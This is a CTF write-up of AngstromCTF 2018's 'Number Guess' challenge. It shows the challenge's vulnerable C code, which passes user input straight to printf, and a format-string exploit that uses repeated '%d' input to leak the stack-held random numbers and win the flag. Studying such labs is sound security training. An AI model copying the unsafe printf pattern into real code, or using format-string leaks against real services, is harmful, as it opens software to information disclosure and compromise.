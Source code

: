 # ANGSTORM CTF 2018: Number Guess

**Category:** Binary
**Points:** 70
**Description:**

> Ian loves playing number guessing games, so he went ahead and wrote one himself (source). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Write Up

by Ovais Ellahi

The challenge is provided by https://angstromctf.com/problems

We are given two files, an elf 64-bit executable:

```bash
$ file guessPublic64
guessPublic64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b444932c543f786c9e9b95ef43415fa0564c0a6, not stripped
```

and a c source file guessPublic.c.

When running the executable, we are asked to input a name, and then guess a random number within a range.

```bash
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
Ovais Ellahi
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
Ovais Ellahi's guess: 2314145 
Sorry, the answer was 1070812. Try again :(
```
To find an entry to exploit this problem, using `radare2` I list out all of the functions available in this executable:

```bash
$ r2 guessPublic64
 -- Use '-e bin.strings=false' to disable automatic string search when loading the binary.
[0x00400770]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400770]> afl
0x00400680    3 26           sym._init
0x004006b0    1 6            sym.imp.puts
0x004006c0    1 6            sym.imp.strlen
0x004006d0    1 6            sym.imp.__stack_chk_fail
0x004006e0    1 6            sym.imp.printf
0x004006f0    1 6            sym.imp.__libc_start_main
0x00400700    1 6            sym.imp.srand
0x00400710    1 6            sym.imp.fgets
0x00400720    1 6            sym.imp.time
0x00400730    1 6            sym.imp.fflush
0x00400740    1 6            sym.imp.__isoc99_sscanf
0x00400750    1 6            sym.imp.rand
0x00400760    1 6            fcn.00400760
0x00400770    1 41           entry0
0x004007a0    4 50   -> 41   sym.deregister_tm_clones
0x004007e0    3 53           sym.register_tm_clones
0x00400820    3 28           sym.__do_global_dtors_aux
0x00400840    4 38   -> 35   entry1.init
0x00400866    6 485          main
0x00400a50    4 101          sym.__libc_csu_init
0x00400ac0    1 2            sym.__libc_csu_fini
0x00400ac4    1 9            sym._fini
```

It seems that the printf function is used to print out the name we input in the program.
That is our entry point, since now instead we can use format strings to directly print out values from the stack. 

But first, I had to look through the c source file to see how the random number is generated.

```bash
	srand(time(NULL));
	int rand1 = rand() % 1000000;
	int rand2 = rand() % 1000000;

	printf(buf);
	fflush(stdout);
	int guess;
	char num[8];
	fgets(num,8,stdin);
	sscanf(num,"%d",&guess);

	if (guess == rand1+rand2){
		printf("Congrats, here's a flag: %s\n", flag);
	} else {
		printf("Sorry, the answer was %d. Try again :(\n", rand1+rand2); 
	}

```

Looking at this code, we see that the number we have to guess is found by generating two random numbers between 1 and 1000000, and then adding them up. 

Since these two random numbers are stored as local variables on to the stack, we can exploit printf and use format strings to print out the stack and find those variables. 

To do this, I first try  "%d" * 10 as the input for the name to see the results:

```bash
$ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d %d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
-921623700 1400 121043 -378421084 -378420960 -921623384 0 4196944 213548 -921623392's
guess: Sorry, the answer was 334591. Try again :(
```
Looking through the 10 decimal numbers, we can disregard the negative numbers, and numbers greater than the answer, which leaves us with `1400 121043 213548`.

By adding 121043 and 213548 gives us 334591, which was the answer. So it is positions 3 and 9 in the output, where the two local variables holding a random number lie.

Now we can simply input the same string and add the third and ninth decimals as our answer to get the string:

```bash
$ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
1291100892 625 266123 -1343201116 -1343200992 1291101208 0 4196944 409334's guess: 675457
Congrats, here's a flag: REDACTED
```

There we go. We were able to guess the correct number and retrieve the flag.
